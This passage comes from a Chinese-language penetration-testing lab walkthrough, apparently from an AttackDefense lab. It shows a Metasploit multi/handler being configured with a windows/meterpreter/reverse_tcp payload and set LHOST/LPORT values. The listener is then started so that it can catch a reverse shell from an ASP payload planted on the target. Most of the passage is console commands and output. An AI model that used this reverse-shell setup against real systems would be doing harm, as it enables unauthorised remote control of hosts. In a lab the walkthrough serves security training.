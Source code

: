 ```
        web.config                           168  Jan  4  2021

```

下一步将点击它并执行它，但在我们执行它之前，我们需要设置一个侦听器或一个处理程序，它将接收来自目标系统的反向连接，然后发送将为我们提供的阶段执行时的meterpreter会话。

为此，我们需要启动一个 metasploit 控制台会话，为此，我们只需启动 postgresql 数据库服务，因为 metasploit 控制台需要启动 metasploit 框架数据库。

```
root@attackdefense:~# service postgresql start && msfconsole
```

为了设置处理程序：

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

这是一种 metasploit 模式，用于为您创建的恶意负载设置侦听器。

我们用来生成恶意 ASP 文件的有效载荷是：

```
windows/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

这必须与您在使用 msfvenom 生成 ASP 文件时指定的有效负载相同。确保您指定的有效负载与您用于生成 ASP 文件的有效负载相同。

请记住，它们与使用 msfvenom 生成恶意 ASP 有效负载时使用的选项相同。

`run` 这将启动一个侦听器，或者更确切地说是一个反向 TCP 处理程序，它现在将等待来自我们生成的 ASP 有效负载的连接。因此，当我们在目标上执行时，它将连接回这个特定的反向 TCP 处理程序。

```
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.21.3
LHOST => 10.10.21.3
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.21.3:1234 
```
